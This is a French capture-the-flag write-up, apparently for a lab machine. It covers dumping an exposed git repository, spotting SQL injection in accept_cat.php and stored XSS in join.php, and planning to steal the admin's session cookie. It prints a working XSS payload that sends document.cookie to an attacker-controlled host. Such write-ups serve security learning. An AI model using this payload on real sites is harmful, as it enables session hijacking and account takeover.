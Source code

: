 ## Enumération

- **IP**: 
```
10.10.11.53
```

- **nmap**
![[Pasted image 20250330202108.png]]On voit qu'il y a un **repository git** dans l'url `10.10.11.53:80/.git/` donc nous allons le télécharger avec **gitdumper**.
Voici tout ce qu'on a eu
![[Pasted image 20250330211324.png]]
Dans le fichier **accept_cat.php**, nous pouvons trouver une **vumnérabilité SQLi**:
![[Pasted image 20250330211649.png]]
L'application prend le paramètre **CatName** et l'utilise dans une requête SQL sans **désinfection** appropriée, la rendant vulnérable à l'injection SQL.
Mais Après une inspection plus approfondie du code, j'ai remarqué que pour exploiter cette vulnérabilité, nous aurions besoin du cookie d'Axel, car l'application vérifie la session de l'utilisateur.

J'ai également découvert une **vulnérabilité XSS** dans join.php. L'application accepte les entrées par e-mail et nom d'utilisateur et les enregistre sans **désinfection** appropriée. En conséquence, si le nom d'utilisateur contient une charge utile XSS, cela pourrait potentiellement affecter l'administrateur lorsqu'il affiche l'entrée.
![[Pasted image 20250330212239.png]]

Le but est donc de recuperer la **session  de Axel** pour pouvoir exploiter la vulnérabilité **SQLi**.  Pour cela, nous devons exploiter la vulnérabilité **XSS** que nous avons découvert. 
Nous allons utiliser le **payloads** suivant dans le champ de saisi **username**:

```
<script>document.location='http://10.10.x.y:9082/?c='+document.cookie;</script>
```

Après ça, on doit être connecter. Nous allons uploader une image dans l'espoir que si l'admin le voit, notre **payload XSS** s'éxécute.

![[Pasted image 20250330213249.png]]